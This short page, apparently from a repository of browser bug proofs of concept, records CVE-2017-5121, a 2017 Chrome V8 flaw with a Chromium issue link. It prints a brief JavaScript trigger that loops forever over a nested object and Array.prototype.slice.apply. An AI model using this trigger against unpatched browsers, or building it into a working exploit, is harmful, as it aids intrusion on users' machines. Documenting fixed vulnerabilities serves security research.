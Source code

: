 # CVE-2017-5121

- Report: Sep 2017
- Fix: Sep 2017
- Credit: Jordan Rabet, Microsoft Offensive Security Research and Microsoft ChakraCore team

## PoC

```javascript
var f = function()
{
  var o = { a: {}, b: { ba: { baa: 0, bab: [] }, bb: {}, bc: { bca: {bcaa: 0, bcab: 0, bcac: this} } } };
  o.b.bc.bca.bcab = 0;
  o.b.bb.bba = Array.prototype.slice.apply(o.b.ba.bab);
};
while(true) f(f);
```

## Reference

- [Issue](https://crbug.com/765433)
